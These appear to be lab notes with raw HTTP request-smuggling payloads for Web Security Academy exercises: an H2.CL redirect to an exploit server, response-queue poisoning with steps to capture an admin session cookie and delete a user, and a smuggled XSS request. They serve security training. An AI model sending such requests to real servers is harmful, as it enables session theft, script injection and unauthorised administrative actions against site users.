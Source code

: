 ##### h2-cl abusing redirection smuggling
```
POST / HTTP/2
Host: 0ada000a04db9eee81a7845e00980012.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aa800a704359e65811883a10167006c.exploit-server.net
Content-Length: 5


x=1
```

##### Response que
Send the request to poison the response queue. You will receive the 404 response to your own request.

Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie. 
```
POST /x HTTP/2
Host: 0a9b005703235c58801817f100200097.web-security-academy.net
Content-Type: application/x-www-from-urlencoded
Transfer-Encoding: chunked
Content-Length: 166


0

GET /admin/delete?username=carlos HTTP/1.1
Host: 0a9b005703235c58801817f100200097.web-security-academy.net
Cookie: session=gs6GC6omabONKuqpbo3D4fQgIH5orkZA

```

##### smuggling XSS
```
POST / HTTP/1.1
Host: 0a5100ce032a50ea80977b11007300c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5


x=1
```
